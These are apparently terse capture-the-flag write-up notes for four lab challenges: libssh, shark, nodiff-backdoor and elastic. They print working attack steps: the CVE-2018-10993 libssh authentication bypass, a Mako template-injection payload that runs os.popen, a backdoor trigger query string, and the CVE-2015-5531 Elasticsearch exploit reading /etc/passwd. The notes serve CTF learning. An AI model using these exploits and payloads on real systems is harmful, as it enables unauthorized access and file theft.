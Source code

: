 # CyberSecurity


libssh
Flag format: CTF{sha256}
Goal: The web application contains a vulnerability which allows an attacker to leak sensitive information.
libssh is a C library that enables you to write a program that uses the SSH protocol. With it, you can remotely execute programs, transfer files, or use a secure and transparent tunnel for your remote programs.
using Nmap to scan the port 
nmap –sV –sC –p port ip -Pn
after scanning we can use CVE-2018-10993 libSSH authentication bypass exploit
cve-2018-10993.py ip -p port -31367 -c "cd ..;cat flag.txt"
ctf
shark
Flag format: CTF{sha256}
Goal: The web application contains a vulnerability which allows an attacker to leak sensitive information.
curl is a command-line tool for getting or sending data including files using URL syntaxi
using curl we can find out that the website is uisng Werkzeug web application library
we can use Server-Side Template Injection and send MAKO payload using burp suite
name=<%
<%
import os
x=os.popen('cat flag').read()
%>
${x}
ctf
nodiff-backdoor
Flag format: CTF{sha256}
Goal: The web application contains a vulnerability which allows an attacker to leak sensitive information.
dirsearch is An advanced command-line tool designed to brute force directories and files in webservers
using dirsearch dirsearch -u ip we can see backup.zip file
using wget command we can dowload //backup.zip
if we search this file, we can find functions with vulnerabilities,
after finding vulnerability we can use the backdoor to get the flag by using /?welldone=knockknock&shazam=id
ctf
elastic
there is a vulnerabilty we can find using searchsploit elasticsearch 
CVE-2015-5531- Arbitrary file Vulnerability. 
https://github.com/nixawk/labs/blob/master/CVE-2015-5531/exploit.py
exploit.py ip /etc/passwd























